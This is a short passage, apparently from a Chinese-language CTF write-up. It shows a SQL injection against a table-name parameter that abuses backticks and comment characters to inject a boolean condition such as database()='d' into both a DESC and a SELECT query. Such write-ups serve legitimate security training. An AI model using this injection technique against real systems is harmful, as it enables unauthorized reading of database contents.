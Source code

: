 怎么利用呢？

漏洞代码：

![](images/ctf-2021-06-18-20-03-39.png)

攻击方法：

```sql
payload:  ?table=note`#` where (select database()='d')#` 
$sql1 => desc `cms_note`#` where (select database()='d')#` 
$sql2 => select * from cms_note`#` where (select database()='d')#` where id = 
```

![](images/ctf-2021-06-18-20-03-59.png)
